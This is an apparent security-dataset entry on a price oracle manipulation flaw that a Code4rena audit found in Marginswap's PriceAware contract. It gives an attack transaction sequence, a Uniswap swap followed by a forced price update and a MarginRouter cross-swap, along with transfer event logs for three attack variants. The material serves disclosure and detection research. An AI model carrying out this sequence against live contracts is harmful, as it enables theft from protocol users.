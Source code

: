 ## Source Code
https://github.com/code-423n4/2021-04-marginswap/blob/412d4ff61c9dfedb2f7d2fe957d911f7dc4ccfcb/contracts/PriceAware.sol#L60

## POMA
Anyone can trigger an update to the price feed by calling `PriceAware.getCurrentPriceInPeg(token, inAmount, forceCurBlock=true)`. If the update window has passed, the price will be computed by simulating a Uniswap-like trade with the amounts. This simulation uses the reserves of the Uniswap pairs which can be changed drastically using flash loans to yield almost arbitrary output amounts, and thus prices. Wrong prices break the core functionality of the contracts such as borrowing on margin, liquidations, etc.


## Attack Transaction
```
// assign values
operator = 0x85beF3a368849FC1ff6820af7382372e30830986 (msg.sender)
token1 = 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48 (USDC)
token2 = 0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2 (WETH)
amount0Out = 10e8
amount1Out = 0
to = operator
token = token2
inAmount = amount0Out
amountOut = 0
amountInMax = amount0Out
pairs = [0xb4e16d0168e52d35cacd2c6185b44281ec28c9dc (UniSwapV2)]
tokens = [USDC]
deadline = block.timestamp + 7200

// execution path
UniSwapV2.swap(amount0Out, amount1Out, to, bytes(0))
PriceAware.getCurrentPriceInPeg(token, inAmount, forceCurBlock=true)
MarginRouter.crossSwapTokensForExactTokens(amountOut, amountInMax, pairs, tokens, deadline)
```

## Transfer Event
### Variant 1 (single transaction)
```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#1, log#3, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#4, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#1, log#5, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#6, token1, operator, MarginRouter, 145927841345707238222094
```


### Variant 2 (separate transaction, same block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```

### Variant 3 (separate transaction, separate block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#2, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#2, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```